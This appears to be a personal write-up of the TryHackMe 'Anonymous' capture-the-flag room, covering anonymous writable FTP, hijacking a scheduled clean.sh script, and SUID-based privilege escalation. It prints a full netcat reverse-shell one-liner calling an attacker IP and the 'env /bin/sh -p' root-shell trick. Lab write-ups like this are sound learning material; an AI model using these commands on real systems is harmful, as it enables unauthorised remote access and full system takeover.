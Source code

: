 # Anonymous

A nice easy room after solving the also easy but very extensive [Stealthcopter CTF Primer 1](https://tryhackme.com/room/stealthcopterctfprimer1).

Recon revealed `21`, `22`, `139` and `445`. A couple of the early questions involved the latter two ports, which were answered with `enum4linux` and `smbclient`. However the SMB stuff was nothing to do with the main challenge.

The FTP endpoint allowed anonymous access, and after connecting there was a `scripts` folder that contained `clean.sh`, `removed_files.log` and `todo.txt`. The first script was setup to delete files (though it seemed to not actually do anything, and emitted content to the log file). The challenge was clear, and achievable once I tested and found the ftp server was writable. I uploaded a new `clean.sh` that appended "sub buddy" to the log, and got content into it after a minute.

I appended a `nc` reverse shell into the clean script and uploaded it: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.178.75 4444 >/tmp/f`. This got me a shell and the user flag in short order. Note I went straight for the above script - the hint for the user flag suggests that regular `nc -e` wouldn't work, but then it almost never works so I usually use the script above which works with regular `nc`.

Once on the box I ran `sudo -l`, but needed a password I didn't have. I then ran `find / -user root -perm -u=s 2>/dev/null`, but missed the critical finding. Later I ran `linpeas.sh` and that pointed out what I missed: that `/usr/bin/env` had the suid bit set.

With `env` you can get a root shell when you have suid via `env /bin/sh -p`, and that got me the root flag.